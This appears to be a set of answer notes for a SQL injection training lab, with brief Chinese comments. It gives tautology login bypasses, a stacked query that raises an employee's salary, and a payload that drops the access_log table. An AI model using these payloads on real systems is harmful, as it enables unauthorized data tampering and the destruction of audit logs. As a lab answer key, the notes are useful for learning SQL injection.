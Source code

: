 0x03

```
update employees set department = 'Sales' where first_name='Tobi';
```

0x04

```
ALTER TABLE employees add phone varchar(20);
```

0x05

```
grant alter table to UnauthorizedUser;
```

0x09

```
SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '' or '1' = '1'
```

0x10

or true 要放在最后面

```
SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1 = 1
```

```
SELECT * FROM employees WHERE last_name = ' + name + ' AND auth_tan = ' + auth_tan + "';
```

0x11

```
Employee Name: 1
Authentication TAN: ' or'1'='1
```

0x12

```
Employee Name: 1
Authentication TAN: 1';update employees set salary=99999 where first_name='John
```

0x13

在sql中，--和#均为注释用

```
'; drop table access_log;--
```

### SQL Injection(advanced)

0x03

注意union时，需要左右两表的项目相同
